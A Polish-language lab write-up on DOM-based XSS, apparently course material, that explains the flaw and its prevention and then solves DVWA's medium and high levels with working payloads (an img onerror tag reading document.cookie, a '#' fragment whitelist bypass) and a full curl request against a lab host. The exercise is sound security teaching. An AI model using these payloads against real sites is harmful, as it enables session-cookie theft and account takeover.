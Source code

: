 # DOM-based XSS
## Opis techniki
<blockquote>
DOM-based Cross-Site Scripting (XSS) to podatność, w której skrypt po stronie klienta aplikacji internetowej zapisuje dane dostarczone przez użytkownika do Document Object Model (DOM). Przeglądarka przetwarza następnie te dane jako HTML lub JavaScript, co pozwala atakującemu na uruchomienie kodu w przeglądarce ofiary. W przeciwieństwie do odbitego lub przechowywanego XSS, gdzie payload ataku jest osadzony w odpowiedzi serwera, w tym wypadku payload jest często przechowywany w samym DOM i wykonywany, gdy dane są z niego odczytywane.
  
Oto kilka kluczowych cech i zagrożeń związanych z DOM-based XSS:
* Manipulacja modelu obiektu dokumentu (DOM): DOM-Based XSS występuje, gdy skrypt po stronie klienta, a nie serwera, nieprawidłowo manipuluje danymi wejściowymi użytkownika wewnątrz modelu obiektu dokumentu (DOM) przeglądarki. Atakujący może wprowadzić złośliwe skrypty, które są następnie wykonywane w przeglądarce użytkownika.
* Brak bezpośredniej interakcji z serwerem: W przeciwieństwie do Reflected XSS i Stored XSS, złośliwy skrypt w DOM-Based XSS nie jest odbijany ani przechowywany na serwerze. Zamiast tego, skrypt jest przechowywany i wykonywany wewnątrz DOM przeglądarki klienta. Oznacza to, że atak może być trudniejszy do wykrycia i zablokowania, ponieważ nie ma bezpośredniej interakcji z serwerem.
* Zagrożenie dla bezpieczeństwa klienta: DOM-Based XSS może prowadzić m.in. do kradzieży wrażliwych danych, takich jak ciasteczka sesji, które mogą umożliwić atakującemu przejęcie sesji użytkownika. 
* Zależność od konkretnych funkcji JavaScript: Ataki DOM-Based XSS zależą od konkretnych funkcji JavaScript i ich niewłaściwego użycia, takich jak document.write() lub .innerHTML. Jeżeli deweloperzy nie są świadomi bezpiecznego stosowania tych funkcji, może to prowadzić do podatności na DOM-Based XSS.
</blockquote>

## Zapobieganie
<blockquote>
Najskuteczniejszym sposobem na usunięcie podatności DOM-Based XSS jest prawidłowe zarządzanie danymi zapisywanymi do DOM. Tam, gdzie to możliwe należy używać kontekstowo bezpiecznych metod takich jak .textContent lub .innerText zamiast .innerHTML. Inną strategią jest używanie frameworków lub bibliotek, które zapewniają bezpieczny sposób manipulacji DOM. 
</blockquote>

## DVWA labs
- [DVWA DOM-based XSS #1 - Medium](#dvwa-DOM-XSS-1---medium)

- [DVWA DOM-based XSS #2 - High](#dvwa-DOM-XSS-2---high)

<br/>

## DVWA DOM-based XSS #1 - Medium
Na średnim poziomie trudności musimy mieć na uwadze następujące cechy laboratorium:
* Filtrowanie ciągu znaków `<script` 

#### Kod źródłowy strony `PHP`
```php
<?php
// Is there any input?
if ( array_key_exists( "default", $_GET ) && !is_null ($_GET[ 'default' ]) ) {
    $default = $_GET['default'];
    
    # Do not allow script tags
    if (stripos ($default, "<script") !== false) {
        header ("location: ?default=English");
        exit;
    }
}
?> 
```

#### Payload
Podatny endpoint: `http://10.10.86.211/vulnerabilities/xss_d/`<br/>
URL: `http://10.10.86.211/vulnerabilities/xss_d/?default=</select><img src onerror=alert(document.cookie)>`

#### Komenda curl - [Wzór zapytania]

```bash
curl -i -s -k -X $'GET' \
    -H $'Host: 10.10.86.211' -H $'User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0' -H $'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8' -H $'Accept-Language: en-US,en;q=0.5' -H $'Accept-Encoding: gzip, deflate' -H $'Connection: close' -H $'Upgrade-Insecure-Requests: 1' -b $'PHPSESSID=h8epn0r4eklimae4dds6k51vk3; security=medium' $'http://10.10.86.211/vulnerabilities/xss_d/?default=%3C/select%3E%3Cimg%20src%20onerror=alert(document.cookie)%3E'
```

#### Efekt działania:
![alt text](https://github.com/249064/CBE-BAW-2023/raw/main/res/XSS_DOM_med.png "Po wykonaniu odpowiedniego zapytania następuje wykonanie kodu i ujawnienie cookies użytkownika.")

Do obejścia zabezpieczenia wykorzystano . Po wykonaniu odpowiedniego zapytania następuje wykonanie kodu i ujawnienie cookies użytkownika.

<br/>
<br/>

## DVWA DOM-based XSS #2 - High
Na trudnym poziomie trudności musimy mieć na uwadze następujące cechy laboratorium:
* Zaimplementowana została whitelista dozwolonych wartości parametru "default" w zapytaniu GET

#### Kod źródłowy strony `PHP`
```php
<?php
// Is there any input?
if ( array_key_exists( "default", $_GET ) && !is_null ($_GET[ 'default' ]) ) {

    # White list the allowable languages
    switch ($_GET['default']) {
        case "French":
        case "English":
        case "German":
        case "Spanish":
            # ok
            break;
        default:
            header ("location: ?default=English");
            exit;
    }
}
?> 
```

#### Payload
Podatny endpoint: `http://10.10.86.211/vulnerabilities/xss_d/`<br/>
URL: `http://10.10.86.211/vulnerabilities/xss_d/#?default=</select><img src onerror=alert(document.cookie)>`

#### Komenda curl - [Wzór zapytania]
W tym wypadku zapytanie musi zostać zrealizowane z poziomu przeglądarki - w samym zapytaniu nie ma śladów payload'u przez fakt, że użyto "#" w adresie URL.

#### Efekt działania:
![alt text](https://github.com/249064/CBE-BAW-2023/raw/main/res/XSS_DOM_high.png "Po wykonaniu odpowiedniego zapytania następuje wykonanie kodu i ujawnienie cookies użytkownika.")

<br/>

Do obejścia zabezpieczenia wykorzystano fakt, że payload można przemycić w zapytaniu bez jego interpretacji jako parametr "default". Po wykonaniu odpowiedniego zapytania następuje wykonanie kodu i ujawnienie cookies użytkownika.
